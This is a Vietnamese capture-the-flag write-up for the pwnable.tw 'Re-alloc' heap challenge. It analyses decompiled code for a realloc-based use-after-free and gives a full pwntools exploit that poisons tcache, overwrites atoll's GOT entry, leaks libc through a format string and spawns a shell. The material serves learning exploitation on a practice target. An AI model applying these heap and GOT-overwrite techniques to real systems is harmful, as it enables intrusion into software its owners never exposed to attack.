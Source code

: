 ```yaml
---
title:  "Pwnable.tw - Re-alloc"
date:   2025-03-25 10:00:00 +0700
header:
  teaser: "/assets/images/2025-03-25-pwntw-realloc/Screenshot 2025-03-25 172442.png"
categories: 
  - pwnable
tags:
  - pwnable.tw
  - elf
  - heap
  - use-after-free
  - tcache
---
```


![Challenge description](/assets/images/2025-03-25-pwntw-realloc/Screenshot%202025-03-25%20172442.png){:class="img-responsive"}

## Phân tích
### Tổng quan
Challenge cho ta một elf binary cùng với libc phiên bản 2.29. RELRO và PIE tắt.  
![Checksec](/assets/images/2025-03-25-pwntw-realloc/Screenshot%202025-03-26%20120846.png){:class="img-responsive"}  
Chương trình có 4 chức năng:  
1, Alloc 1 chunk có index, size và data được user chỉ định. Giá trị size phải nhỏ hơn 0x78 (Vừa với tcache).

```cpp
int allocate()
{
  _BYTE *v0; 
  unsigned __int64 v2; 
  unsigned __int64 size; 
  void *v4; 

  printf("Index:");
  v2 = read_long();
  if ( v2 > 1 || heap[v2] ) {
    LODWORD(v0) = puts("Invalid !");
  }
  else {
    printf("Size:");
    size = read_long();

    // tcache limit
    if ( size <= 0x78 ) { 
      v4 = realloc(0LL, size);

      // alloc thành công
      if ( v4 ) { 
        heap[v2] = v4;
        printf("Data:");
        v0 = (_BYTE *)(heap[v2] + read_input(heap[v2], (unsigned int)size));
        *v0 = 0;
      }
      else {
        LODWORD(v0) = puts("alloc error");
      }
    }
    else {
      LODWORD(v0) = puts("Too large!");
    }
  }
  return (int)v0;
}
```
2, Re-alloc 1 chunk đã được alloc trước đó với size và data mới.

```cpp
int reallocate() {
  unsigned __int64 v1; 
  unsigned __int64 size; 
  void *v3; 

  printf("Index:");
  v1 = read_long();
  if ( v1 > 1 || !heap[v1] )
    return puts("Invalid !");
  printf("Size:");
  size = read_long();
  if ( size > 0x78 )
    return puts("Too large!");
  v3 = realloc((void *)heap[v1], size);
  if ( !v3 )
    return puts("alloc error");
  heap[v1] = v3;
  printf("Data:");
  return read_input(heap[v1], (unsigned int)size);
}
```
3, Free 1 chunk có index được user chỉ định. Sau khi free có đặt lại pointer về null nên sẽ không có lỗi ở đây.

```cpp
int rfree() {
  void *v0; 
  unsigned __int64 v2; 

  printf("Index:");
  v2 = read_long();
  if ( v2 > 1 ) {
    LODWORD(v0) = puts("Invalid !");
  }
  else {
    realloc(*((void **)&heap + v2), 0LL);
    v0 = &heap;
    *((_QWORD *)&heap + v2) = 0LL;
  }
  return (int)v0;
}
```
4, Thoát chương trình.

Ngoài ra, chương trình chỉ cho phép 2 chunk tồn tại đồng thời (index là 0 hoặc 1), việc này được kiểm soát bởi global array **heap**.
### Hiểu về hàm realloc
Điều đáng chú ý ở challenge này là nó dùng hàm realloc để thực hiện cả 3 thao tác chính. Dựa theo [man page](https://man7.org/linux/man-pages/man3/realloc.3p.html) và [source code](https://elixir.bootlin.com/glibc/glibc-2.29/source/malloc/memusage.c#L379) của realloc:
1. realloc(NULL, size): giống như malloc.
2. realloc(ptr, size): dealloc (không phải free) chunk cũ và alloc 1 chunk mới với size mới với data giống với chunk cũ, độ dài của data phù hợp với chunk nhỏ hơn. Nếu size mới bằng size cũ thì realloc không làm gì cả.
3. realloc(ptr, 0): giống như free.

Dựa vào những điều trên, ta xác định được lỗi use-after-free ở chức năng thứ 2 của chương trình do không kiểm tra size được nhập bởi user.  
## Khai thác
Với hạn chế size của mọi chunk phải ở trong vùng tcache thì ý tưởng khai thác chính của ta sẽ là dùng kỹ thuật tcache-poisoning.  
Các bước khai thác:
1. Ghi đè got_atoll thành plt_printf (chọn atoll do ta có thể kiểm soát hoàn toàn tham số của nó).
2. Leak libc base bằng lỗi format-string vừa tạo ra.
3. Vẫn dùng lỗi format-string, ghi đè tất cả các giá trị trong mảng **heap** về null nhằm tránh lỗi khi alloc về sau.
4. Ghi đè got_atoll thành system, thao tác tương tự bước 1 (lưu ý printf trả về số kí tự được in thành công)
5. Lấy shell

Mã khai thác:  
```python
#!/usr/bin/python3
from pwn import *

context.binary = elf = ELF("./re-alloc_patched", checksec = False)
libc = ELF("./libc.so.6", checksec = False)

# con = process()
con = remote("chall.pwnable.tw", 10106)

def debug_from_here():
    gdb.attach(con, gdbscript = '''
        b*main+0x6f
        b*main+0x7b
        b*main+0x87
    ''')
    input()

def alloc(idx, size, data):
    con.sendlineafter(b"Your choice: ", b"1")
    con.sendlineafter(b"Index:", idx)
    con.sendlineafter(b"Size:", size)
    con.sendlineafter(b"Data:", data)

def realloc(idx, size, data):
    con.sendlineafter(b"Your choice: ", b"2")
    con.sendlineafter(b"Index:", idx)
    con.sendlineafter(b"Size:", size)
    if (size != b"0" and size != b"\0"):
        con.sendlineafter(b"Data:", data)
    
def free(idx):
    con.sendlineafter(b"Your choice: ", b"3")
    con.sendlineafter(b"Index:", idx)

### Stage 1: overwrite got_atoll -> plt_printf
alloc(b"0", f"{0x10}", b"abcd0")                # heap[0] = p1
realloc(b"0", b"0", "")                         # heap[0] = p1; tcache[0x20] = [p1]
realloc(b"0", f"{0x10}", p64(elf.got['atoll'])) # heap[0] = p1; tcache[0x20] = [p1 -> atoll_got -> ...]
alloc(b"1", f"{0x10}", b"abcd1")                # heap[0] = p1, heap[1] = p1; tcache[0x20] = [atoll_got -> ...]

realloc(b"1", f"{0x20}", b"abcd1")              # heap[0] = p1, heap[1] = p2; tcache[0x20] = [atoll_got -> ...]
free(b'1')                                      # heap[0] = p1, heap[1] = 0; tcache[0x20] = [atoll_got -> ...], tcache[0x30] = [p2]
alloc(b"1", f"{0x10}", p64(elf.plt['printf']))  # heap[0] = p1, heap[1] = atoll_got; tcache[0x20] = [...], tcache[0x30] = [p2]

### Stage 2: leak libc base
free(b"%7$p")
libc.address = int(con.recvline().strip(b"\n"), 16) - 0x1e5760
log.success(hex(libc.address))

### Stage 3: clear heap array
free(b"%9$n".ljust(8) + p64(elf.sym['heap']))
free(b"%9$n".ljust(8) + p64(elf.sym['heap'] + 8))

### Stage 4: overwrite got_atoll -> system
alloc(b"\0", f"%{0x2f}c", b"abcd0")                  # heap[0] = p1
realloc(b"\0", b"\0", b"")                           # heap[0] = p1; tcache[0x40] = [p1]
realloc(b"\0", f"%{0x2f}c", p64(elf.got['atoll']))   # heap[0] = p1; tcache[0x40] = [p1 -> atoll_got -> ...]
alloc(b"1\0", f"%{0x2f}c", b"abcd1")                 # heap[0] = p1, heap[1] = p1; tcache[0x40] = [atoll_got -> ...]

realloc(b"1\0", f"%{0x3f}c", b"abcd1")               # heap[0] = p1, heap[1] = p2; tcache[0x40] = [atoll_got -> ...]
free(b'1\0')                                         # heap[0] = p1, heap[1] = 0; tcache[0x40] = [atoll_got -> ...], tcache[0x50] = [p2]
alloc(b"1\0", f"%{0x2f}c", p64(libc.sym['system']))  # heap[0] = p1, heap[1] = atoll_got; tcache[0x40] = [...], tcache[0x50] = [p2]

### Stage 5: get shell
free(b"/bin/sh")

con.interactive()

```
![Solved](/assets/images/2025-03-25-pwntw-realloc/Screenshot%202025-03-26%20120324.png){:class="img-responsive"}
